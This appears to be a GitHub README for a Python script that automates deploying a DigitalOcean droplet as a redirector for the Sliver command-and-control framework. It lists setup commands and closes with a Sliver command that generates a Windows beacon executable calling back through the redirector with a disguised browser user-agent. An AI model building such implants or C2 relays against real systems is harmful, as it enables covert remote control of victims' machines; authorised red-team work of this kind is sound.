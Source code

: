 # DigitalOcean C2 Redirector Automation Script

This Python script provides a command-line interface to automate the deployment of a redirector server for sliver, using DigitalOcean droplets.


## Prerequisites

* **Python 3.x:** Installed on your local machine.
* **DigitalOcean Personal Access Token (API Key):** Generate one from your DigitalOcean control panel under "API" -> "Tokens/Keys". Ensure it has read/write access.
* **SSH Keypair:** You should have an SSH keypair generated on your local machine (e.g., `id_rsa` and `id_rsa.pub` on Linux/macOS, or generated via OpenSSH in PowerShell on Windows). Your public key must be uploaded to your DigitalOcean account.

## Installation

1.  **Clone this repository** (or save the ` .py` script to your desired location).
2.  **Install the prerequisites:**
    ```bash
    pip install python-digitalocean
    pip install paramiko
    ```
## General Usage

The script uses `argparse` for command-line arguments. The basic syntax is:

```bash
python run.py YOUR_DIGITALOCEAN_API_KEY <resource> <action> [optional_arguments]
```

The basic syntax to create a redirector through a DigitalOcean droplet is
```bash
python redirectorC2setup.py YOUR_DIGITALOCEAN_API_KEY droplets create-c2-redirector --ssh_keys SSH_KEY_ID --private-key-path PATH_TO_PRIVATE_KEY --C2-IP IP_OF_C2_SERVER --private-key-passphrase SSH_PRIVATE_KEY_PASSPHRASE
```
(To get your public ssh key id, first run 
```bash
python redirectorC2setup.py YOUR_API_KEY keys list
```
which will return a list of SSH keys and their corresponding IDs)

The command will take aroind 5 minutes to run and return the redirector ip.

Once done, to create a very basic beacon in sliver that uses the redirector, run 
```bash
generate --http  "https://REDIRECTOR_IP/,User-Agent=Mozilla/5.0 (Windows NT 10.0; Win64; x64) Chrome/125.0.0.0" --save /root/sliver-beacon.exe
```
